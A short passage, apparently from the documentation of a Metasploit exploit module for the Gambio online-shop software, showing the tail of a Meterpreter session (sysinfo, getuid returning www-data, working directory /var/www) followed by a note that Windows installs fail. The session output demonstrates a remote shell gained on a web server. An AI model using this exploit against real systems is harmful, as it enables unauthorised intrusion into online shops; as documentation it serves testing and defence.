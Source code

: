 ```msf
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.201.25
OS           : Ubuntu 22.04 (Linux 5.15.0-101-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: www-data
meterpreter > pwd
/var/www
meterpreter > exit
```

## Limitations
Gambio is also supported on Windows systems, however the admin access seems to be broken on the vulnerable versions.
This causes the exploit not to run successfully.

